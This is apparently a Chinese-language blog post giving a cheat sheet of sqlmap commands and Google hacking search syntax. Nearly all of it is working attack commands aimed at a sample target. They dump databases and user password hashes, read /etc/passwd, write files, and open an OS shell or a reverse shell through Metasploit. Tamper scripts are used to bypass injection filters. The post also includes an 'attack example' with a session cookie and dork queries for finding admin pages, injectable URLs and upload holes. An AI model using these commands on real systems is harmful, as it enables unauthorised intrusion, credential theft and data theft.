 ```yaml
---
layout: post
category: binghe-code-hack
title: SQLMap的用法+谷歌黑客语法
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: SQLMap的用法+谷歌黑客语法
lock: need
---
```


# SQLMap的用法+谷歌黑客语法

## SQLMap的用法记录

**基本步骤**

```
sqlmap.py -u "http://192.168.109.139/news?id=1" --current-user #获取当前用户名称
sqlmap.py -u "http://192.168.109.139/news?id=1" --current-db #获取当前数据库名称
sqlmap.py -u "http://192.168.109.139/news?id=1" --tables -D "db_name" #列表名
sqlmap.py -u "http://192.168.109.139/news?id=1" --columns -T "tablename" users-D "db_name" -v 0 #列字段
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump -C "column_name" -T "table_name" -D "db_name" -v 0 #获取字段内容
******************信息获取****************** 
sqlmap.py -u "http://192.168.109.139/news?id=1" --smart --level 3 --users # smart 智能 level 执行测试等级
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbms "Mysql" --users # dbms 指定数据库类型
sqlmap.py -u "http://192.168.109.139/news?id=1" --users #列数据库用户
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbs#列数据库
sqlmap.py -u "http://192.168.109.139/news?id=1" --passwords #数据库用户密码
sqlmap.py -u "http://192.168.109.139/news?id=1" --passwords-U root -v 0 #列出指定用户数据库密码
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump -C "password,user,id" -T "tablename" -D "db_name" --start 1 --stop 20 #列出指定字段，列出 20 条
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump-all -v 0 #列出所有数据库所有表
sqlmap.py -u "http://192.168.109.139/news?id=1" --privileges #查看权限
sqlmap.py -u "http://192.168.109.139/news?id=1" --privileges -U root #查看指定用户权限
sqlmap.py -u "http://192.168.109.139/news?id=1" --is-dba -v 1 #是否是数据库管理员
sqlmap.py -u "http://192.168.109.139/news?id=1" --roles #枚举数据库用户角色
sqlmap.py -u "http://192.168.109.139/news?id=1" --udf-inject #导入用户自定义函数（获取系统权限！）
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump-all --exclude-sysdbs -v 0 #列出当前库所有表
sqlmap.py -u "http://192.168.109.139/news?id=1" --union-cols #union 查询表记录
sqlmap.py -u "http://192.168.109.139/news?id=1" --cookie "COOKIE_VALUE" #cookie 注入
sqlmap.py -u "http://192.168.109.139/news?id=1" -b #获取 banner 信息
sqlmap.py -u "http://192.168.109.139/news?id=1" --data "id=3" #post 注入
sqlmap.py -u "http://192.168.109.139/news?id=1" -v 1 -f #指纹判别数据库类型
sqlmap.py -u "http://192.168.109.139/news?id=1" --proxy"http://127.0.0.1:8118" #代理注入
sqlmap.py -u "http://192.168.109.139/news?id=1"--string"STRING_ON_TRUE_PAGE" #指定关键词
sqlmap.py -u "http://192.168.109.139/news?id=1" --sql-shell #执行指定 sql 命令
sqlmap.py -u "http://192.168.109.139/news?id=1" --file /etc/passwd  #必须为dbs权限
sqlmap.py -u "http://192.168.109.139/news?id=1" --file-write 本地文件路径 file-dest 目标路径  #必须为dbs权限(可将本地的某个文件写入到目标路径下)
sqlmap.py -u "http://192.168.109.139/news?id=1" --os-cmd=whoami #执行系统命令
sqlmap.py -u "http://192.168.109.139/news?id=1" --os-shell #系统交互 shell
sqlmap.py -u "http://192.168.109.139/news?id=1" --os-pwn #反弹 shell
sqlmap.py -u "http://192.168.109.139/news?id=1" --reg-read #读取 win 系统注册表
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbs-o "sqlmap.log" #保存进度
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbs -o "sqlmap.log" --resume #恢复已保存进度
sqlmap.py -u "http://192.168.109.139/news?id=1" --msf-path=/opt/metasploit3/msf2 --os-pwn 反弹 shell 需 metasploit 路径
sqlmap.py -u "http://192.168.109.139/news?id=1" --tamper "base64encode.py" 加载脚本(可利用绕过注入限制)
sqlmap.py -u "http://192.168.109.139/news?id=1" --batch --tamper "base64encode.py" 加载脚本(可利用绕过注入限制)
sqlmap -g "google 语法" --dump-all --batch #google 搜索注入点自动 跑出所有字段
sqlmap.py -u "http://192.168.109.139/news?id=1" --forms  #post提交方式注入
sqlmap.py -r 本地数据包路径 #post提交方式注入
```

## 攻击实例

```
sqlmap.py -u "http://192.168.109.139/news?id=1&Submit=Submit" --cookie="PHPSESSID=41aa833e6d0d28f489ff1ab5a7531406" --string="Surname" --dbms=mysql --users --password
```

谷歌黑客语法

- site：可以限制你搜索范围的域名.
- inurl：用于搜索网页上包含的URL，这个语法对寻找网页上的搜索，帮助之类的很有用.
- intext: 只搜索网页<body>部分中包含的文字(也就是忽略了标题、URL等的文字)
- intitle: 查包含关键词的页面，一般用于社工别人的webshell密码
- filetype：搜索文件的后缀或者扩展名
- intitle：限制搜索的网页标题.
- link: 可以得到一个所有包含了某个指定URL的页面列表.

- 查找后台地址：site:域名 inurl:login|admin|manage|member|admin_login|login_admin|system|login|user|main|cms
- 查找文本内容：site:域名 intext:管理|后台|登陆|用户名|密码|验证码|系统|帐号|admin|login|sys|managetem|password|username
- 查找可注入点：site:域名 inurl:aspx|jsp|php|asp
- 查找上传漏洞：site:域名 inurl:file|load|editor|Files
- 找eweb编辑器：site:域名 inurl:ewebeditor|editor|uploadfile|eweb|edit
- 存在的数据库：site:域名 filetype:mdb|asp|#
- 查看脚本类型：site:域名 filetype:asp/aspx/php/jsp
- 迂回策略入侵：inurl:cms/data/templates/images/index/


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)